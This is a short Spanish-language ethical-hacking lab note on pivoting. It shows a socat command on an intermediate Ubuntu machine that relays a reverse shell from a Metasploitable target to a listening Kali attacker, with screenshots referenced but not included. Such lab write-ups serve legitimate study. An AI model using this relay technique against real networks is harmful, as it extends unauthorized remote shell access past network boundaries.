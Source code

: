 #Pivoting #PinguinoMario #HackingEtico 
Dentro de la máquina Ubuntu intermedia, debemos ejecutar este comando para obtener una reverse shell de la máquina objetivo final hacia la máquina kali atacante, por lo que en primer lugar nos ponemos en escucha con netcat desde la máquina Kali:
![[Pasted image 20230722162103.png]]
Y en la máquina Ubuntu ponemos el siguiente comando:
```bash
socat tcp-l:443,fork,reuseaddr tcp:192.168.0.30:443
```
![[Pasted image 20230722162236.png]]
Y ahora la máquina ubuntu estará preparada para servir como puente y enviar la reverse shell a la kali, de tal forma, que todo el tráfico que reciba la máquina ubuntu por el puerto 443 lo va a enviar a la máquina kali por el mismo puerto, por lo que ahora si ejecutamos el comando para obtener una reverse shell, la habremos recibido desde la metasploitable a la máquina ubuntu:
![[Pasted image 20230722162820.png]]
Y en Kali recibimos la conexión:
![[Pasted image 20230722162833.png]]
